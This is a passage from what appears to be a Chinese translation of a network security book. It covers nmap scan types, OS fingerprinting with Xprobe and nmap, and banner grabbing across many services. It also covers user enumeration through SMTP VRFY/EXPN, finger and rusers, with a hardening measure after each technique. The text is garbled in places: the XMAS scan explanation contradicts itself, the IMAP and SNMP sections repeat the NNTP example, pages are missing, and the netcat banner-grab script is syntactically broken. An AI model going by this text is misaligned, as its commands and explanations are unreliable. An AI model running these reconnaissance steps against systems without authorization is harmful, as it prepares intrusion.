[bash]# nmap -sF 192.168.1.100
```

Starting nmap V.3.00 ( www.insecure.org/nmap/ )

Interesting ports on (192.168.1.100):

(The 1594 ports scanned but not shown below are in state: closed)

| Port State Service |

| 21/tcp open ftp |

| 22/tcp open ssh |

| 25/tcp open smtp |

| 53/tcp open domain |

| 80/tcp open http |

| 110/tcp open pop-3 |

| 113/tcp open auth |

Nmap run completed -- 1 IP address (1 host up) scanned in 43 seconds

### 反向 Ident

Ident（识别协议）服务器在端口 113 上监听连接。如果到运行 ident 服务器的主机上某个监听的端口建立了 TCP 连接，则可以查询 ident 服务器获取与连接相关的进程的权限级别。

#### 反向 Ident 扫描

在 `nmap` 中使用 `-I` 标志将执行 TCP 反向 ident 扫描：

```
[bash]# nmap -I -sT -p 80 192.168.1.100
```

Starting nmap V.3.00 ( www.insecure.org/nmap/ )

Interesting ports on (192.168.1.100):

| Port | State |

|---|---|

| 80/tcp | open |

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second

### XMAS

这种扫描方法向目标主机发送带有 FIN、URUSH 和 PUSH 标志的 TCP 包。如果目标主机在特定端口上监听，它将响应 RST 数据包。如果目标主机在特定端口上监听，它将不响应。FIN 包通常用于关闭已建立的 TCP 连接，URG 包表示需要立即处理，PUSH 包表示在会话期间传输数据。

#### XMAS 扫描

在 `nmap` 中使用 `-sX` 标志将执行 XMAS 扫描：

```
[bash]# nmap -sX 192.168.1
```

Starting nmap V.3.00 ( www.insecure.org/nmap/ )

Interesting ports on (192.168.1):

(The 1595 ports scanned but not shown below are in state: closed)

| Port | State | Service |

|---|---|---|

| 22/tcp | open | ssh |

| 80/tcp | open | http |

| 113/tcp | open | auth |

| 6000/tcp | open | X11 |

nmap run completed -- 1 IP address (1 host up) scanned in 2 seconds

### NULL

这种扫描类型涉及向目标主机发送所有标志关闭的 TCP 包。如果目标主机在特定端口上监听，它将不响应。否则，它将发送 RST 包。

#### NULL 扫描

在 `nmap` 中使用 `-sN` 标志将执行 NULL 扫描：

```
[bash]# nmap -sN 192.168.1.100
```

Starting nmap V.3.00 ( www.insecure.org/nmap/ )

Interesting ports on (192.168.1.100):

(The 1594 ports scanned but not shown below are in state: closed)

| Port State Service |

|---|---|---|

| 21/tcp open ftp |

| 22/tcp open ssh |

| 25/tcp open smtp |

| 53/tcp open domain |

| 80/tcp open http |

| 110/tcp open pop-3 |

| 113/tcp open auth |

Nmap run completed -- 1 IP address (1 host up) scanned in 43 seconds

### RPC

这种扫描类型用于向开放端口发送 NULL 命令以确定它们是否为 RPC（远程过程调用）端口。一旦确定开放端口是 RPC 端口，将查询并获取绑定到端口的应用程序信息。

#### RPC 扫描

在 `nmap` 中使用 `-sR` 选项将执行 RPC 扫描：

```
[bash]# nmap -sR 10.0.0.10
```

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )

Interesting ports on (10.0.0.10):

(The 1584 ports scanned but not shown below are in state: closed)

| Port | State | Service (RPC) |

| --- |---|---|

| 7/tcp | open | echo |

| 21/tcp | open | ftp |

| 22/tcp | open | ssh |

| 37/tcp | open | time |

| 53/tcp | open | domain |

| 111/tcp | open | sunrpc (rpcbind V2-4) |

# 30 第一部分：攻击技术与防御

```
113/tcp open auth
512/tcp open exec
513/tcp open login
514/tcp open shell
515/tcp open printer
587/tcp open submission
2049/tcp open nfs (nfs V2-3)
4045/tcp open locked (nfs V2-3)
7100/tcp open font-service
32771/tcp open sometimes-rpc5 (ypserv V1-2)
32772/tcp open sometimes-rpc7
```

Nmap 运行完成 -- 1 个 IP 地址 (1 个主机在线) 已在 40 秒内完成扫描

## IP 协议

此类扫描的目的是确定目标主机上支持哪些 IP 协议。它会针对特定协议发送原始 IP 数据包，如果接收到 ICMP 协议不可达消息，则目标主机很可能不支持该特定协议。

### IP 协议扫描

`-sO` 标志将执行 IP 协议扫描。

```bash
[bash]# nmap -sO 192.168.1.1
```


Starting `nmap` V.3.00 ( www.insecure.org/nmap/ )

(192.168.1.1) 上的感兴趣协议：

已扫描但未在下方列出的 251 个协议状态为：(closed)

| 协议 | 状态名称 |
|---|---|
| 1 | open icmp |
| 2 | open igmp |
| 6 | open tcp |
| 17 | open udp |

### ACK

此类扫描主要用于确定防火墙规则集。ACK 数据包被发送到目标主机。如果目标主机没有响应或发回 ICMP 不可达包，则该端口可能正被防火墙过滤。如果目标发回 RST 数据包，则该端口没有被防火墙过滤。

### ACK 扫描

可以使用 `nmap` 配合 `-sA` 标志执行 ACK 扫描。

```
nmap -sA target_address
```

# 第 2 章：扫描与识别 31

## 窗口 (Window)

此类扫描虽然与 ACK 扫描相似，但由于 TCP 窗口大小报告方式的异常，有时有助于检测某些系统上的开放、已过滤和未过滤的端口。

### 窗口扫描 (Window Scans)

潜在的入侵者可以使用 `nmap` 配合 `-sW` 标志执行窗口扫描：

```
nmap -sW target_address
```

## UDP

为了确定主机是否在特定的 UDP 端口监听，会向该端口发送 UDP 数据包。如果目标主机没有监听该端口，则会接收到 ICMP 端口不可达包。然而，如果目标主机正在监听该端口，则不会接收此类数据包。由于 UDP 不是面向连接的协议，因此 UDP 扫描不可不可的。

### UDP 端口扫描

使用 `nmap` 中的 `-sU` 选项将执行 UDP 扫描：

```bash
[bash]# nmap -sU 192.168.1.100
```

Starting `nmap` V. 2.54BETA31 ( with insecure.org/nmap/ )

(192.168.1.100) 上的中断端口：

已扫描但未在下方列出的 1454 个端口状态为：(closed)

| 端口 | 状态 | 域 |
|---|---|---|
| 53/udp | open | |

### 防御端口扫描

你可以使用这些方法来应对针对你网络的扫描：

- 配置防火墙以丢弃发往关闭端口的数据包。这将减慢针对你网络的扫描，因为这会导致端口扫描应用程序在超过超时值后才响应 SYN 数据包。只有在重复超时后，端口扫描应用程序才会认为该端口已被过滤，并移动到下一组端口。
- 大多数防火墙和入侵检测系统（IDS）具有检测端口扫描的能力，并定期查看你的日志。
- 配置你的防火墙不信任源端口值。状态检测防火墙能够仅允许来自已知已建立的 FTP 服务器的源端口 20 数据包。在任何情况下，都不建议使用如 FTP 这样的明文协议。存在更好的替代方案（如 SSH），并应该使用它们。此外，不要允许源端口设置为 53 的入站 TCP 数据包，除非其目标是你需要执行传输的 DNS 服务器。通过授权为你的主机服务的 DNS 服务器的 IP 地址来限制 DNS 流量。
- 大多数 FTP 服务器不允许客户端使用客户端自身以外的主机 IP 地址。这将防止反射扫描（bounce scans）。请检查你的 FTP 服务器文档和配置获取详情。
- 配置你的防火墙丢弃或重置到 ident 端口 (113) 的连接尝试。
- 使用状态检测防火墙。这将防止前文中提到的大多数扫描。

## 指纹识别 (FINGERPRINTING)

尽管许多系统设计者尽力遵循相关的 RFC，但操作系统内核有时对细节的解释可能不同。Xprobe 和 Nmap 等工具会探测此类差异，以便对目标操作系统进行指纹识别。

### 使用 Xprobe 操作系统指纹

Xprobe 使用 ICMP 数据包执行指纹识别。结果根据对操作系统最佳猜测分配的分进行排序。该工具具有区分通往路径路径过滤设备的能力，可在 http://www.sys-security.com/html/tools/tools.html。以下是使用 Xprobe 的示例：

```bash
[bash] xprobe -v target.someexample.com
```

Xprobe v0.1 Copyright (c) 2002 ygrave@tiger.net, ofir@sys-security.com

+] Target is target.someexample.com

+] Loading modules:

+] ICMP echo (ping)

+] ICMP distance

+] ICMP echo

+] ICMP Timestamp

+] ICMP Address

+] ICMP Request

+] Initial engine

+] Running scan

+] Host: 192.168.1.1 is up (Guess probability: 100%)

+] Target: 192.168.1.1 is alive

+] Primary guesses:

+] Host: 192.168.1.1 OS: "Linux Kernel 2.4" (Guess probability: 60%)

+] Other guesses:

+] Host: 192.168.1.1 OS: "Linux Kernel 2.0 - 2.5.20" (Guess probability: 60%)

+] Host: 192.168.1.1 OS: "Linux Kernel 2.2" (Guess probability: 60%)

+] Host: 192.168.1.1 OS: "Microsoft NT 4 Service Pack 4 and Above" (Guess probability: 60%)

+] Host: 192.168.1.1 OS: "BSD 1.2" (Guess probability: 50%)

+] Host: 192.168.1.1 OS: "Microsoft NT 4 Service Pack 3 and Below" (Guess probability: 50%)

+] Host: 192.168.1.1 OS: "Microsoft ME" (Guess probability: 50%)

+] Host: 192.168.1.1 OS: "Windows 2000/2000SP1/2000SP2" (Guess probability: 50%)

+] Host: 192.168.1.1 OS: "Windows XP" (Guess probability: 50%)

+] Host: 192.168.1.1 OS: "FreeBSD 4.5" (Guess probability: 45%)

+] Host: 192.168.1.1 OS: "OS X 10.1" (Guess probability: 40%)

+] Host: 192.168.1.1 OS: "Windows 98/98SE" (Guess probability: 40%)

+] Host: 192.168.1.1 OS: "Digital UNIX 5.6" (Guess probability: 35%)

+] Host: 192.168.1.1 OS: "Sun Solaris 5 (SunOS 2.5)" (Guess probability: 35%)

+] Host: 192.168.1.1 OS: "Sun Solaris 6 (SunOS 2.6)" (Guess probability: 35%)

+] Host: 192.168.1.1 OS: "Sun Solaris 7 (SunOS 2.7)" (Guess probability: 35%)

+] Host: 192.168.1.1 OS: "Sun Solaris 8 (SunOS 2.8)" (Guess probability: 35%)

+] Host: 192.168.1.1 OS: "FreeBSD 3.4"

+] Cleaning up scan

+] Modules deinitialized

+] Execution completed.

### 使用 nmap 执行操作系统指纹识别

`nmap` 程序也可以被入侵者配合 `-O` 标志执行操作系统指纹识别：

```bash
[bash]# nmap -O 192.168.1.1
```

Starting `nmap` V.3.00 ( www.insecure.org/nmap/ )

(192.168.1.1) 上的感兴趣端口：

(已扫描但未在下方列出的 1597 个端口状态为: closed)

| 端口 | 状态 | 服务 |
|---|---|---|
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 113/tcp | open | auth |
| 6000/tcp | open | X11 |


远程操作系统猜测为: Linux Kernel 2.4.0 - 2.5.20

Uptime 6.584 days (since Sun Oct 27 10:23:37 2002)

Nmap 运行完成 -- 1 个 IP 地址 (1 个主机在线) 已在 8 秒内完成

## 总结

通过 ping 主机来快速确定它们是否在线。此外，可以使用各种扫描技术来确定在线主机上的开放端口。随后，可以使用操作系统指纹工具来识别目标主机上的操作系统版本。当入侵者遵循了这种方法论后，他或她就可以进入在第 3 章中描述的用户名和服务枚举过程。

# 第3章 枚举

## 概述

+ 本章内容：
- 枚举远程服务
- 自动化Banner抓取（Banner-Grabbing）
- 总结

在对目标主机进行端口扫描后，入侵者将确切知道哪些主机是活跃的以及它们开放了哪些端口。有了这些信息，逻辑上的下一步是从监听特定端口的服务中枚举出各种信息，例如用户名、文件共享和操作系统版本号。只有在获取了此类信息后，攻击者才能像下一章讨论的那样，转向利用特定的漏洞。

许多远程守护进程在连接到它们监听的端口时会显示横幅消息（banner message）。横幅消息可以提供有关服务的信息，例如其身份和版本信息。从远程服务获取横幅的过程被称为Banner抓取（banner grabbing）。由于大多数守护进程允许更改其横幅，你应该利用这种能力。

虽然更改服务器横幅以混淆潜在入侵者是一个好主意，但请记住，这并不能阻止更复杂的攻击者。

## 枚举远程服务

以下是已知易受枚举攻击的服务列表。它们按照通常监听的端口号进行排序（请查看你的Unix或Linux主机上的 `/etc/services` 文件以获取完整列表）。

> 此处列出的任何服务都可以配置为监听非标准端口。某些服务使用非ASCII字符进行通信，很难识别。可以使用可用位于 `http://www.thehackerschoice.com/releases.php` 的 `Amap` 等工具来检测服务：

```bash
$ amap -sT intranet.somecompanyasanexample.com 9934
Total amount of tasks to perform: 15
Amap1.2.1b started at Sun Mar 9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap1.2.1b ended at Sun Mar 9 09:30:59 2003
```

在这个示例中，`Amap` 成功发现主机 `intranet.somecompanyasanexample.com` 在端口 9934 上运行HTTPS。这是一个非常有用的信息，因为HTTPS的标准端口是443。

## 阻塞并停止不必要的服务

某些服务被配置为接受来自任何IP地址的连接。例如，电子商务组织的HTTP服务器必须接受来自任何IP地址的连接，以便允许所有位置的用户查看该组织的网站。在这种情况下，组织无法隐藏他们正在运行HTTP服务器的事实。

然而，根据组织的需求和网络架构，某些服务可能只期望来自授权IP地址的连接。在这些情况下，必须建立防火墙规则以确保来自未经授权IP地址的连接被阻塞。此外，必须通过防火墙规则关闭或阻塞不必要的服务。这将防止不应被授权主机访问的服务被利用和识别。

### FTP（文件传输协议）：21 (TCP)

FTP顾顾名，是一种从一个主机向另一个主机传输文件的协议。

#### 获取FTP服务器Banner

FTP服务器在连接时通常会打印版本信息。可以使用FTP客户端连接到FTP服务器以获取其横幅。例如：

```bash
$ ftp 192.168.1.1
Connected to 192.168.1.1 (192.168.1.1).
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
Name (192.168.1.1:username):
```

`telnet` 客户端也可以直接连接到FTP端口以获取横幅信息：

```bash
$ telnet 192.168.1.1 21
Connected to 192.168.1.1.
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
```

#### 修改FTP服务器Banner

如果你正在运行WU-FTPD服务器，可以编辑 `/etc/ftpaccess` 文件或使用 `greeting` 指令来更改服务器横幅。例如：

```text
greeting No banner available.
```

### SSH（安全外壳）：22 (TCP)

SSH是一种用于交换数据的安全协议。它可以登录远程机器、执行命令并传输文件。由于SSH通信是加密的，它是 `telnet`、`rlogin` 和 `FTP` 的可靠替代方案。

#### 获取SSH服务器Banner

尽管SSH通信是加密的，当使用 `telnet` 连接时，SSH守护进程会打印版本信息：

```bash
$ telnet 192.168.1.1 22
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^'.
SSH-1.99-OpenSSH_3.4p1
```

在上面的示例中，Banner显示的版本信息“OpenSSH_3.4p1”可以通过获取并编辑SSH源码来更改。使用 `grep` 命令在SSH源码中找到该字符串。一旦更改了该字符串，请重新编译并安装SSH。横幅还显示了协议版本“SSH-1.99”，更改此值可能会某些SSH客户端停止正常工作。

### Telnet：23 (TCP)

Telnet是用于登录远程机器的明文协议。

#### 获取Telnet服务器Banner

只需 `telnet` 到服务器即可从 `telnet` 守护进程获取Banner信息：

```bash
$ telnet 192.168.1.1 23
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'
SunOS 5.8
login:
```

#### 修改Telnet服务器Banner

为了更改 `telnet` banner，你需要为它编写一个包装器（wrapper）。假设你正在 `inetd` 中运行 `telnetd`，编辑你的 `/etc/inetd.conf`，并将

```text
telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd
```

改为：

```text
telnet stream tcp nowait root /usr/sbin/in.telnetdwrapper in.telnetd
```

现在，你创建一个包含以下内容的 `/usr/sbin/in.telnetdwrapper`：

```sh
#!/bin/sh
/bin/echo "My banner\r"
exec /usr/sbin/in.telnetd
```

> 如果你使用 `inetd`，请适当编辑 `xinetd.d` 目录下的 `telnet` 文件。必须重启 `inetd` 或 `xinetd` 才能生效。注意，某些版本的 `telnetd` 允许通过编辑 `/etc/issue.net` 文件来更改 `banner` 信息。

### SMTP（简单邮件传输协议）：25 (TCP)

SMTP是互联网上用于传输电子邮件的协议。

#### 获取SMTP服务器Banner

通过 `telnet` 到运行SMTP的主机的端口25可以获取SMTP进程 `banner`：

```bash
$ telnet 192.168.1.1 25
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^'
220 192.168.1.1 ESMT Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09:28:02-0500 (EST)
```

#### 修改SMTP服务器Banner

如果你使用 `Sendmail`，可以通过编辑 `/etc/sendmail.cf` 文件并更改 `SmtpGreeting` 字段来更改SMTP `banner`。

#### 使用EXPN和VRFY枚举用户

`EXPN` 和 `VRFY` 是SMTP支持的两个允许用户名枚举的命令。`EXPN` 和 `VRFY` 可确认特定用户名的存在。`EXPN` 可以用于枚举特定组邮件别名中所有用户的姓名和电子邮件地址。

这里是 `VRFY` 的示例：


```bash
$ telnet mail.somecompanyexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyexample.com.
Escape character is '^'
220 mail.somecompanyexample.com ESMTP Sendmail 8.11.6/
8.11.6; Wed, 15 Jan 2003 22:04:06-0500 (EST)
VRFY smith
250 2.1.5 <smith@sales.somecompanyexample.com>
```

这里是使用`EXPN`的示例：

```bash
$ telnet mail.somecompanyexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyexample.com.
Escape character is '^'
220 mail.somecompanyexample.com ESMTP Sendmail 8.11.6/
8.11.6; Wed, 15 Jan 2003 22:10:11-0500 (EST)
EXPN marketing-team
250-2.1.5 <bob@marketing.somecompanyexample.com>
```

# 第 3 章：枚举 Enumeration 41

250-2.1.5 <alan@marketing.somecompanyanasexample.com>

250-2.1.5 <joe@marketing.somecompanyanasexample.com>

250-2.1.5 <dilip@marketing.somecompanyanasexample.com>

250-2.1.5 <john@legal.somecompanyanasexample.com>

250-2.1.5 <kavita@sales.somecompanyanasexample.com>


### 关闭 EXPN 和 VRFY

配置你的 SMTP 服务器使其不支持 `EXPN` 和 `VRFY`。在 Sendmail 中，编辑 `/etc/sendmail.cf` 并将 `PrivacyOptions` 设置为 `authwarnings, noexpn, novrfy`。

### DNS (域名命名系统): 53 (TCP/UDP)

`DNS` 是一种用于在域名和 IP 地址之间进行转换的协议。

#### 获取 BIND 版本信息

Linux 上广泛使用的 DNS 服务器软件是 `BIND` (伯克利互联网命名域)。可以使用 `dig` 工具查询特定宿主机上运行的 `BIND` 版本。

例如，如果运行 `BIND` 的宿主机 IP 地址为 `192.168.1.1`：

```bash
[bash] dig -t txt -c chaos VERSION.BIND @192.168.1.1
<<>> DIG 9.2.1 << -t txt -c chaos VERSION.BIND @192.168.1.1
;; global options: printcmd
;; Got answer:
;; >>HEADER<< opcode, status: NOERROR, id: 22464
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0,
;; ADDITIONAL:0

;; QUESTION SECTION:
;;VERSION.BIND.		CH	TXT

;; ANSWER SECTION:
VERSION.BIND.	CH	TXT	"8.3.3-REL"

;; Query time: 40 msec
;; SERVER: 192.168.1.1#53(192.168.1.1)
;; WHEN: Wed Jan 15 09:46:22 2003
;; MSG SIZE rcvd: 64
```

枚举远程服务

#### 配置 BIND 不显示版本信息

编辑 `BIND` 配置文件 `named.conf` 并覆盖版本号：

```
options {
  version "Not available";
}
```

你可能还想为 `BIND` 配置特定的 `ACL`，并限制来自特定宿主机的查询。详细信息请参阅 `BIND` 文档。关于 `BIND` 的更多信息可以在 http://www.isc.org/products/BIND 处找到。

### Finger: 79 (TCP)

`Finger` 是一个用户信息查询程序。对远程主机进行指纹查询（Fingering）可以提供诸如用户名、IP 地址、空闲时间以及此时登录到宿主机上的个人真实姓名。

#### 使用 Finger 命令枚举远程用户

如果远程主机运行着 `finger` 守护进程（daemon），则可以使用命令行 `finger` 工具查询该宿主机：

```bash
finger @host
```

示例：

```bash
[bash]$ finger @192.168.1.1
Login Name TTY Idle When Where
bob Bob pts/1 8 Wed 14:26 bobsaddress.bobsisp.org
rob Robert Smith pts/4 51 Wed 14:36 dhcp.rhomeisp.org
tang Tang pts/3 1:08 Wed 10:07 somecaseanexample.com
```

也可以对特定的用户名进行 `finger` 查询。查询特定用户名即使在该用户此时未登录，也会产生关于该用户的信息：

```bash
finger username@host
```

示例：

```bash
[bash]$ finger root@192.168.1.1
Login name: root In real life: Sys Admin
Directory: / Shell: /usr/local/bin/tcsh
Last login Jan 11 14:26:51 on tty2
```

# 第 3 章：枚举 Enumeration 43

新邮件于 2003 年 1 月 15 日周三 14:36:29 接收；

自 2003 年 1 月 11 日周三 14:29:54 以来未读

无计划。

已知旧版本的 Solaris `finger` (`finger` 守护进程）包含一个漏洞，使用类似 `a b c d e f g h` 的字符串进行查询时，会暴露宿主机上所有的用户名列表：

```bash
finger a b c d e f g h@host
```

有关此漏洞的更多信息请查看 `http://www.securityfocus.com/bid/3457/info/`。

### 禁用 Finger

如果你正在运行 `finger` 服务器，强烈建议考虑以下建议：

- 如果可能，请考虑禁用 `finger` 服务。它向本地用户和入侵者提供了过多的系统信息。如果你使用 `inetd`，可以通过注释掉 `/etc/inetd.conf` 中的相应行来禁用 `finger`。如果你使用 `xinetd`，请编辑 `inetd.d` 目录下的文件，并确保以下行存在：

`disable = yes`

- 你必须重启 `inetd` 或 `inetd` 才能使更改生效。如果你必须运行 `finger` 服务器，请配置你的防火墙丢弃入站连接。

### HTTP (超文本传输协议): 80 (TCP)

`HTTP` 是一种用于传输 Web 内容的协议。

#### 获取 HTTP 服务器 Banner

通过查询远程宿主机来获取 `HTTP` 服务器 Banner：

```bash
curl -I http://host
```

例如：

```bash
HTTP/1.1 200 OK
Server: Apache/2.4.41 (Ubuntu)
```

# 第3章：枚举 47

| 100004 | 1 | tcp | 762 | ypserv |

| 100004 | 2 | tcp | 51059 | ypserv |

| 100007 | 3 | udp | 56186 | ybind |

| 100007 | 2 | udp | 56186 | ybind |

| 100007 | 1 | udp | 56186 | ybind |

| 100003 | 3 | tcp | 51390 | ybind |

| 100002 | 2 | tcp | 51390 | ybind |

| 100001 | 1 | tcp | 51390 | ybind |

`rpc.usersd` 和 `rpc.whod` 是 `RPC` 服务，提供与 `finger` 类似的用户信息：


```bash
[bash]$ rusers -l 192.168.1.1
bob 192.168.1.11:pts/1 Jan 15 14:26 :08 (bobsipaddress.bobsisp)
rob 192.168.1.11:pts/4 Jan 15 13:10 1:04 (dhcp.rhoshomeisp.org)
```

```bash
[bash]$ rwh 10.0.0.1
deepti 10.0.0.1:pts/2 Jan 15 10:10
joe 192.168.1.11:pts/1 Jan 12 14:33
```

### 禁用 Portmapper 和 RPC 服务

如果你运行任何 RPC 服务，强烈建议采取以下措施：

- 如果没有运行任何 RPC 服务，请禁用 Portmapper。
- 通过注释掉 `inetd.conf` 中相应的行，来禁用 `rpc.usersd` 和 `rpc.whod`。如果使用 `xinetd`，请查看你的 `xinetd` d 目录，并确保要禁用的服务对应文件包含此行：
  `disable = yes`
- 禁用任何未使用的 RPC 服务。

你必须重启 `inetd` 或 `xinetd` 更改才能生效。

### NNTP（网络新闻传输协议）：119 (TCP)

NNTP 是一种用于分发、查询、检索和发布新闻文章的协议。

#### 获取 NNTP 服务器横幅

许多 NNTP 服务器在连接时会打印出版本信息：

```bash
[bash]$ telnet 192.168.1.1 119
Connected to 192.168.1.1.
```

转义字符为 '^'。

200 192.168.1.1 InterNetNews NNTP server INN 1.4 22-Dec-93

ready (posting ok).

#### 修改 NNTP 服务器横幅

许多 NNTP 服务器需要编辑其源代码来更改服务器横幅。在这种情况下，你必须获取 NNTP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦你编辑了源代码以反映新的横幅信息，请重新编译并安装 NNTP 服务器。某些 NNTP 服务器允许通过编辑相应的配置文件来更改横幅信息。请参阅你的 NNTP 服务器文档获取详情。

### Samba：137 到 139 (TCP 和 UDP)

Samba 使用 SMB（服务器消息块）协议在网络上共享文件和打印机。SMB 最常用于 Microsoft Windows 操作系统。访问 http://www.samba.org/ 获取有关 Samba 项目的详情。

#### 枚举 Samba 服务器信息

Samba 的 `smclient` 工具可以从远程 Samba 服务器枚举信息：

```bash
[bash]$ smclient -L sambaserver -I 10.0.0.1 -U ''nadded interface ip=192.168.1.2 bcast=192.168.1.255 nmask=255.255.255.0
Password:[enter]
Domain=[REMOTEMAIN] OS=[Unix] Server=[Samba 2.2.8]
```

| 简名 | 类型 | 注释 |
| --- | --- | --- |
| IPC$ | IPC | IPC 服务 (Samba 服务器) |
| ADMIN$ | Disk | IPC 服务 (Samba 服务器) |
| 服务器 | 注释 |
| --- | --- |
| RSAMBASERVER |  |
| 工作组 | 主节点 |
| --- | --- |
| RGROUP | RMASTERHOST |

#### 修改 Samba 服务器字符串和版本信息

可以采取以下步骤来加固 Samba 服务器配置：

- 编辑 `smb.conf` 并修改
  `server string = Samba Server`
  改为新的字符串。
  一旦你编辑了源代码以反映新的横幅信息，请重新编译并安装 Samba 服务器。

### IMAP（互联网消息访问协议）：143 (TCP)

IMAP 是一种用于访问电子邮件的协议，它通过在服务器上存储存储。

某些 IMAP 服务器允许通过编辑相应的配置文件来更改横幅信息。请参阅你的 IMAP 服务器文档获取详情。

#### 获取 IMAP 服务器横幅

许多 IMAP 服务器在连接时会打印出版本信息：

```bash
[bash]$ telnet 192.168.1.1 119
Connected to 192.168.1.1.
```

转义字符为 '^'。

200 192.168.1.1 InterNetNews NNTP server INN 1.4 22-Dec-93

ready (posting ok).

#### 修改 IMAP 服务器横幅

许多 IMAP 服务器需要编辑其源代码来更改服务器横幅。在这种情况下，你必须获取 IMAP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦你编辑了源代码以反映新的横幅信息，请重新编译并安装 IMAP 服务器。某些 IMAP 服务器允许通过编辑相应的配置文件来更改横幅信息。请参阅你的 IMAP 服务器文档获取详情。

### HTTPS（超文本传输协议）：443 (TCP)

HTTPS 是在 SSL 之上的 HTTP。它使用 SSL 建立并维护安全通道，从而提供客户端与服务器之间的加密通信。

#### 获取 HTTPS 服务器横幅

许多 HTTPS 服务器在连接时会打印出版本信息：

```bash
[bash]$ telnet 192.168.1.1 119
```

#### 修改 HTTPS 服务器横幅

需要编辑其源代码。一旦你编辑了源代码以反映新的横幅信息，请重新编译并安装 HTTPS 服务器。某些 HTTPS 服务器允许通过编辑相应的配置文件来更改横幅信息。请参阅你的 HTTPS 服务器文档获取详情。

### SNMP（简单网络管理协议）：161 (UDP)

SNMP 是一种用于管理网络设备的协议。

### 枚举 SNMP

许多 SNMP 服务器在连接时会打印出版本信息：

```bash
[bash]$ telnet 192.168.1.1 119
```

* OK [CAPABILITY4 IMAP4REV1 LOGIN-REFERRALS AUTH=LOGIN localhost IMAP4rev1 2000.283 at Thu, 16 Jan 2003 03:51:56 -0500 (EST)]

OpenSSL 可以在 http://www.openssl.org 获取。

### 修改 IMAPS 服务器 Banner

请使用“Change the IMAP Server Banner.”

### POP3S (安全邮局协议 3): 995 (TCP)

POP3S 是基于 SSL（安全套接层）的 POP3。POP3 使用 SSL 来建立并维护安全通道，从而在客户端和服务器之间提供加密通信。

#### 获取 POP3S 服务器 Banner

使用命令行工具 `openssl` 连接到 POP3S 服务器以获取横幅页（banner）信息：

```bash
[bash]$ openssl s_client -connect:192.168.1.1:995
```

证书信息之间的各种项目已删除

```
+OK QPOP (version 2.53) at 192.168.1.1 starting.
<3413.1213451334@192.168.1.1>
```

OpenSSL 可以在 http://www.openssl.org 获取。

#### 修改 POP3S 服务器 Banner

请使用“Change the POP3S Server Banner.”

### MySQL: 3306 (TCP)

MySQL 是一个流行的开源数据库软件包。它可以在 http://www.mysql.com/ 获取。

## 列举 MySQL 版本信息

可以通过 `telnet` 客户端连接到其端口，获取远程 MySQL 服务器的版本号：

```bash
[bash]$ telnet 10.0.0.1 3306
```

正在尝试 127.0.0.1...

## 第一部分：黑客技术与防御

已连接到 127.0.0.1。

转义字符为 '^'。

```
{
3.23.49&r/3Nod closed by foreign host.
```

## 仅允许本地连接

不要允许内网以外机机到 MySQL 服务。确保防火墙规则已预设拦截此类连接尝试。应鼓励授权的外部用户使用 SSH 等安全隧道工具建立远程连接。

虽然可以通过编辑 MySQL 源代码来更改连接时立即显示的版本信息，但这样做可能会破坏 MySQL 客户端。

## 自动获取 Banner

Netcat 是一个使用 TCP 或 UDP 跨网络连接进行读写数据的工具。它可以像命令行 `telnet` 客户端一样连接到服务器。

可以使用以下方法使用 Netcat 获取 SMTP Banner：


```bash
[bash]$ nc 192.168.1.1 25
220 192.168.1.1 SMTP Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09:28:02 -0500 (EST)
```

通过 Shell 编程，你可以使用 Netcat 执行自动化的 Banner 获取。例如，考虑以下脚本（我们称其为 `grab.bash`）：

```bash
#!/bin/bash

if [ $ -lt 1 ]
then
	echo Usage: $0 host
	exit 1
fi

i=21
```

# 第3章：枚举

```bash
while [ "$i" -lt 26 ]
do
  nc -v $1 $i < /dev/null
  i=$(expr $i + 1)
  echo
```

该脚本包含一个针对变量 `i` 从 21 到 25 的 `while` 循环。在 `while` 循环内部，会对主机（传递给脚本的第一个参数，即 `$1`）建立值为 `i`（21 到 25）的连接，并将 `/dev/null` 作为输入传递给 Netcat 连接。由于 `/dev/null` 是一个为空的特殊文件，Netcat 在获取 Banner 的第一行（如果有）后将立即终止。

在尝试执行上述脚本之前，通过以下命令赋予权限：

```bash
[bash]$ chmod u+x ./grab.bash
```

现在运行脚本：

```bash
[bash]$ ./grab.bash 192.168.1.1
192.168.1.1 [192.168.1.1] 21 (ftp) open
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
221 You could least say goodbye.
```

```
192.168.1.1 [192.168.1.1] 22 (ssh) open
SSH-1.99-OpenSSH_3.4pl
192.168.1.1 [192.168.1.1] 23 (telnet) : Connection refused
192.168.1.1 [192.168.1.1] 24 (?) : Connection refused
192.168.1.1 [192.168.1.1] 25 (smtp) open
220 192.168.1.1 SMTP Sendmail 8.9.3/8.9.3; Fri, 17 Jan 2003
14:13:10 -0500 (EST)
```

如果需要在多个主机上执行上述脚本，你可以像这样编写一个针对 `grab.bash` 脚本的封装脚本：

```bash
#!/bin/bash
for i in `cat hosts.txt`
do
  ./grab.bash $i
  echo
```

上述脚本（可以称为 `wrapper-grab.bash`）将对 `hosts.txt` 文件中列出的主机执行原始脚本 `grab.bash`。`hosts.txt` 文件必须包含目标主机的主机或 IP 地址，如下：

```
192.168.1.1
10.0.0.1
somecompanyasanexample.com
```

尽管上述脚本适用于大多数服务，请记住你需要发送 HEAD 请求才能获取 HTTP Banner。

```
where getrequest.txt
```

# 60 第一部分：攻击技术与防御

这些用于在交换机上对流量进行代理。考虑存在于网络交换机上的以下主机：

- 受害者主机
- 网关主机
- 恶意主机

